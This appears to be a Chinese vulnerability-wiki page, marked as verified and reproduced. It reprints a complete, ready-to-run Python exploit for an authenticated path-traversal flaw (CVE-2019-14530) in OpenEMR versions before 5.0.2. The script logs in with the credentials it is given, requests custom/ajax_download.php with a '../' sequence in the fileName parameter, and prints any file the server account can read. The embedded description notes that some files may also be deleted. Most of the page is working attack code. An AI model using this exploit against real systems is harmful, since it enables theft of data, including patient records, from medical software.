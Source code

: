 |---|
||---|---|---|---|
|![](Check.png "Check.png")|<strong>該漏洞已通過驗證。</strong>||<center>
本頁面的EXP/POC/Payload經測試可用，漏洞已經成功復現。

</center>||

<noinclude>

<languages /> <translate>

影響版本
--------

</translate> Version: All versions prior to 5.0.2

EXP
---

    # Exploit Title: OpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated)
    # Date 16.06.2021
    # Exploit Author: Ron Jost (Hacker5preme)
    # Vendor Homepage: https://www.open-emr.org/
    # Software Link: https://github.com/openemr/openemr/archive/refs/tags/v5_0_1_7.zip
    # Version: All versions prior to 5.0.2
    # Tested on: Ubuntu 18.04
    # CVE: CVE-2019-14530
    # CWE: CWE-22
    # Documentation: https://github.com/Hacker5preme/Exploits/blob/main/CVE-2019-14530-Exploit/README.md
    # Reference: https://raw.githubusercontent.com/Wezery/CVE-2019-14530/master/Path%20traversal%20and%20DoS.pdf

    '''
    Description:
    An issue was discovered in custom/ajax_download.php in OpenEMR before 5.0.2 via the fileName parameter.
    An authenticated attacker can download any file (that is readable by the user www-data)
    from server storage. If the requested file is writable for the www-data user and the directory
    /var/www/openemr/sites/default/documents/cqm_qrda/ exists, it will be deleted from server.
    '''


    '''
    Banner:
    '''
    banner = """


     ______     _______     ____   ___  _  ___        _ _  _  ____ _____  ___
     / ___\ \   / / ____|   |___ \ / _ \/ |/ _ \      / | || || ___|___ / / _ \
    | |    \ \ / /|  _| _____ __) | | | | | (_) |_____| | || ||___ \ |_ \| | | |
    | |___  \ V / | |__|_____/ __/| |_| | |__, |_____| |__   _|__) |__) | |_| |
     ____|  _/  |_____|   |_____|___/|_|  /_/      |_|  |_||____/____/ ___/

                                                by Hacker5preme

    """
    print(banner)


    '''
    Import required modules:
    '''
    import requests
    import argparse


    '''
    User-Input:
    '''
    my_parser = argparse.ArgumentParser(description='OpenEMR Path Traversal')
    my_parser.add_argument('-T', '--IP', type=str)
    my_parser.add_argument('-P', '--PORT', type=str)
    my_parser.add_argument('-U', '--PATH', type=str)
    my_parser.add_argument('-u', '--USERNAME', type=str)
    my_parser.add_argument('-p', '--PASSWORD', type=str)
    args = my_parser.parse_args()
    target_ip = args.IP
    target_port = args.PORT
    openemr_path = args.PATH
    username = args.USERNAME
    password = args.PASSWORD
    print('')
    Filepath = input('[+] Filepath: ')


    '''
    Authentication:
    '''
    session = requests.Session()
    auth_url = 'http://' + target_ip + ':' + target_port + openemr_path + '/interface/main/main_screen.php?auth=login&site=default'

    # Header:
    header = {
        'Host': target_ip,
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': 'http://' + target_ip,
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
    }

    # Body:
    body = {
        'new_login_session_management': '1',
        'authProvider': 'Default',
        'authUser': username,
        'clearPass': password,
        'languageChoice': '1'
    }

    # Authenticate:
    print('')
    auth = session.post(auth_url, headers=header, data=body)
    if 'error=1&site=' in auth.text:
        print('[-] Authentication failed')
        exit()
    else:
        print('[+] Authentication successfull: ' + str(auth))


    '''
    Path Traversal:
    '''
    url_static = 'http://' + target_ip + ':' + target_port + openemr_path
    url_dynamic = '/custom/ajax_download.php?fileName=../../../../../../../../..'
    url_exploit = url_static + url_dynamic + Filepath
    print('')
    print('[+] Constructed malicious URL: ')

    # Headers:
    header = {
        'Host': target_ip,
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
    }

    # Exploit:
    print('')
    print('[+] Contents of ' + Filepath + ':')
    print('')
    getfile = session.get(url_exploit, headers = header)
    print(getfile.text)